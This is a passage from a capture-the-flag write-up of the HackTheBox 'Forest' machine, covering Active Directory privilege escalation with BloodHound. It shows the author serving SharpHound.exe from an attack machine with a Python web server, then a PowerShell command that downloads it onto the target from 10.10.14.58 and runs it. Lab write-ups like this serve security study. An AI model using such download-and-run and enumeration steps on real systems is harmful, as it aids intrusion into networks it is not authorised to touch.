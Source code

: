 
## Privilege Escalation


After landing on the machine I start looking for easy wins, like the `Impersonate Privilege`, or stored credentials, but with no luck: 

![privs-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Forest/img/privs-10.png)

I also had a look around the system, but I wasn't able to find any escalation paths. Instead, I decided to shift gears and take a look at Active Directory specific escalation paths. For this I used [BloodHound](https://github.com/BloodHoundAD/BloodHound)


The first step is to run a collector script on the target to gather information. I decided to use [SharpHound.exe](https://github.com/BloodHoundAD/SharpHound) as the collector, in order to avoid compatibility issues. 


After downloading the binary to my attack machine, I host the file using a python server:

```bash
python3 -m http.server 80
```

Then, I download the file from the target using:

```powershell
(New-Object Net.WebClient).DownloadFile("http://10.10.14.58/SharpHound.exe","C:\Users\svc-alfresco\sharp.exe")
```

Now that the file is on the target, I run it as such:

```powershell
./sharp.exe --CollectionMethods All
```

After the script has finished, we can see the output archive file:
